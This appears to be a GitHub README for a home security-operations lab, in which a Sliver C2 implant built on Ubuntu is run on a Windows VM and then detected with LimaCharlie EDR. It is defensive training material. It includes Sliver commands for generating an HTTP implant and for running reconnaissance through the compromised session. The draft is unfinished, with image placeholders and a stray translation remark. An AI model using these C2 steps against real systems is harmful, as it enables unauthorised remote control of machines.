 # Home-Soc-Analyst-Project-
-A simple setup to make a Security Operation Center, Using Both Ubuntu and win11


Objectives With this project: Make a lab where one machine is an attacker and the other one is the defender, using LimaCharlie to see the telemetry and creation of YARA "Yet Another Recursive Acronym" and Sigma rules, blocking C2 "Command and Control" and privilege scalation, blocking automation using *Sliver*


What i m gonna need:
-a copy of windows 
-a ubutuntu copy 

Part 1 - Put yourself in Adversary Place *Taking Notes and making observations*.

Part 2- Simulating the adversary attack to notice detections.

Part 3- Blocking A Attack. 

Part 4- Adjusting False Positives.

Part 5- Scaning with YARA through rules of detection. 


Explaining a little of LimaCharlie. 
It is a platform of SecOps based in cloud with the focus being EDX/XDR *detection and response* collecting telemetry through the analysis of logs and Security Automation, being able to manage EndPoint Security.

<img width="632" height="309" alt="image" src="https://github.com/user-attachments/assets/b133ad4e-e7c2-4721-90d9-ef932e4d5789" /> 

-Creating a Organization on LimaCharlie 
-Name: it can be any but i choose *Home Soc Analyst*
-Data Residency Region: Closest avaiable  
-Template: No pre-configuration *but you can customize one for different purpouse*

*adicionar imagem do criando organização

-Sensors 
-Main fonts of receiving data on LimaCharlie, operating through many plataforms that are compatible and sending events in JSON throught the cloud of LimaCharlie live. (Change Later).
*adicionar imagem do sensores

-adding a new sensor 
1. Select Endpoint
2. Select Windows
3. I choose: *Windows VM -Lab* but you can choose through your preference
4. Create
5. Select The key that you just make

//add image of installation key 

-Installing a Sensor or Endpoint
//Add Image

Waiting for new sensors. 
-> configure the Virtual machines, and install the EDR of LimaCharlie in the windows system. 


-Windows EDR - Seonsors, monitoring and rules of defense.

open CMD and execute both those commands:
- cd C:\Users\Administrator\Downloads 
- install Key from LimaCharlie: lc_sensor.exe -i *[your_installation_key]*

will POP *connection acquired* of cmd and Lima charlie 
->ad both cmd and lima charlie images to the system. 

-Artifact Colletion:
      They are records of events and data collected from endpoints, networks, and other sources of threat analysis and response. These artifacts can be used for forensic investigation.

<add image>

name: windows-sysmon-logs 
Pattern: well://Microsoft-Windows-Sysmon/Operational:*
Retention Period: 10 Days
Platform: Windows

<add image>

-Extensions *ext-sigma*
Sigma is a detection rule format, enabling rules to identify malicious behavior.

<add image>

-Configuring the Virtual Machine (Linux)

<add image>
      
sudo su – enable the device as superuser.

systemctl status sliver – check if Sliver is active.

<add image>

– Sliver
Sliver is an open-source command-and-control (C2) framework developed by BishopFox, designed for Red Team operations, penetration testing, and adversary simulation. It serves as a modern alternative to tools such as Cobalt Strike and Metasploit, offering support for multiple platforms and secure communication.
Here’s the translation:

<add image>

http – check if the machine is “listening” for possible connections.

jobs – check if the machine has any active processes.

Generating our C2 implant
It is a payload that enables attackers to remotely control a compromised device, through C2 (command and control).
<add image>

generate –http <linux_vm_ip> –save /var/www/payloads 
<add image>

– Accessing the file through Windows
<add image>

– On the Linux machine
<add image>

use [session_id] – replace session_id with the number shown in the image above (in this case bc318fc1).
<add image>

info – simple command to gather information such as machine name, malware name, system type, and language location
<add image>

whoami: basically a “who am I” in Linux — in this specific case, it shows the machine name and its escalation.

pwd: shows the directory path — in this case C:\Users\Administrator\Downloads.

netstat: displays the connections currently occurring on the remote system.

ps -T: identifies the processes running on the remote system in a “tree” format.

– Going back to the Sensors part

rocesses in the LimaCharlie section – shows the processes running in the LimaCharlie environment.

Now that a “suspicious” process has been found: MARKED_REVIEW.exe

Connection established with the program MARKED_REVIEW.exe, including the base connection and the destination.

Next, following the line of “viewing network connections.”

Network – list of connections made, including connections between suspicious files.

File System – lists the files on the computer, allowing an easy path to locate them.

Scan on VirusTotal to check if there is any process similar or identical, to see if there is a solution for a potential old or documented malware.

Hash – ba39c9077470488fed6f7bd37f9539010d6c5b852bb658309b98116edcaf326c

Since in this case there is no match, a new detection and response rule needs to be created.

Telemetry – real-time data collection and analysis, enabling the creation of defense and detection rules.
